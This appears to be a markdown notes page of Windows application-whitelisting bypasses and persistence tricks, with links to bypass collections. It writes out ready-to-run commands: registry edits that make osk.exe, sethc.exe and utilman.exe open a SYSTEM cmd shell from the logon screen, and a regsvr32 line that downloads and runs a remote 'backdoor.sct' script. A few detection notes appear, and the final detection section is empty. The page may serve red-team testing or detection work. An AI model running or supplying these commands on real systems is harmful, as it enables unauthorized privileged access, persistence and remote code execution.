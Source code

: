 # Bypasses

## Application Whitelisting


[Application Whitelist Auditor - Airlock Digital](https://www.airlockdigital.com/application-whitelisting-auditor/)

[AllTheThings - SubTee](https://github.com/subTee/AllTheThings)

[Bypass Techniques - SubTee](https://github.com/subTee/ApplicationWhitelistBypassTechniques)

## Native Utilities

### Reg.exe - On Screen Keyboard swap

Create a registry entry on the host, allowing a system-level shell to be invoked any time that the osk.exe (on screen keyboard) process is called:

    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f

Test:

Logout of current session. Select the accessibility controls on the logon screen and click "On Screen Keyboard"

Detection:

Reg.exe add a process or a command shell. Much of it will be based on command line or actual registry key value add/changes.

Utilman.exe spawning cmd.exe and detecting whatever other commands executed via cmdline (ex - net user jack pwnfish /add)


### Reg.exe - sethc.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f

### Reg.exe - utilman.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f

### Regsvr32 + sct file + powershell encoded command

This is based on @SubTee sct bypass  - https://github.com/subTee/SCTPersistence

Test:

    regsvr32.exe /s https://gist.githubusercontent.com/MHaggis/31a1d0efd882d048436aeb7b9fd7f6d0/raw/b96dc20465abfeed3f05ba56b28e2ff91c398606/backdoor.sct

Detection:
